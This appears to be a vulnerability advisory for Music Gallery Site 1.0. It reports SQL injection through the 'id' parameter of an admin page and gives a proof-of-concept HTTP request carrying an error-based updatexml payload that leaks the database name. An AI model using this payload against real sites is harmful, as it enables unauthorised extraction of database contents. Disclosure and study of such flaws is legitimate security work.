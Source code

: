 ## Music Gallery Site has a front-end SQL injection vulnerability

## Affected version: 
Music Gallery Site - 1.0

## Author:
Liuhaobin

## Software:
https://www.sourcecodester.com/php/16073/music-gallery-site-using-php-and-mysql-database-free-source-code.html

## Vulnerability File:
 /php-music/admin/?page=musics/manage_music

## Description:
Music Gallery Site 1.0 is vulnerable to an unrestricted SQL injection attack in /php-music/admin/?page=musics/manage_music with the attack parameter id. An attacker can exploit this vulnerability to directly obtain sensitive server information. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
GET /php-music/admin/?page=musics/manage_music&id=1%27+and+updatexml(1%2Cconcat(0x7e%2C(database()))%2C3)--+q HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

<img width="1223" alt="image" src="https://github.com/user-attachments/assets/a098ed0a-b3f2-4617-88a7-aff4735ef369">





